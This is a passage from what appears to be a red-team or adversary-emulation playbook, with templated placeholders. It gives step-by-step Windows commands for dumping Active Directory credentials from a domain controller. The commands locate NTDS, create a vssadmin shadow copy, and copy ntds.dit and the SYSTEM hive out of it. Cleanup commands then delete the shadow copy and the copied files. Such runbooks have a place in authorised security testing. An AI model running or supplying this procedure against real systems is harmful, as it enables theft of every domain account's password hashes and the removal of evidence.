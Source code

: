 ### Cleanup

1. Delete the snapshot if necessary (see "Notes" above)
1. Remove the NTDS.dit copy at the path you specified during execution


## Extract NTDS.dit Credentials - via vssadmin.exe

The Volume Shadow Copy Service (VSS) can be used to create a shadow copy (backup) of the data on the DC and extract NTDS.dit.

### Prerequisites

- Elevated command execution on a DC
- Sufficient free disk space on the DC (verify size of ntds.dit file against free disk space)

### Guidance

Identify the drive where NTDS is located:

 ```
 cmd> reg query HKLM\SYSTEM\CurrentControlSet\Services\NTDS\Parameters
 ```

   - Note: If NTDS is on a different drive than the OS, you'll need to make a snapshot for each drive

List shadows currently on the DC:

```
cmd> vssadmin list shadows
```

Create a shadow copy for the target drive(s):

```
cmd> vssadmin create shadow /for={{ drive_letter }}:
```

Copy SYSTEM hive from the shadow copy:

```
cmd> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy{{ shadow_copy_number }}\Windows\System32\config\SYSTEM {{ output_path }}\SYSTEM
```

Copy NTDS from the shadow copy:

```
cmd> copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy{{ shadow_copy_number }}\NTDS\ntds.dit {{ output_path }}\NTDS.dit
```

   - Note: the path to NTDS in the shadow copy may be slightly different

### Cleanup

Delete the shadow copy(s) you created along with the copied NTDS.dit & SYSTEM files:

```
cmd> vssadmin delete shadows /shadow={{ volume_id }}
cmd> del {{ output_path }}\NTDS.dit
cmd> del {{ output_path }}\SYSTEM
```
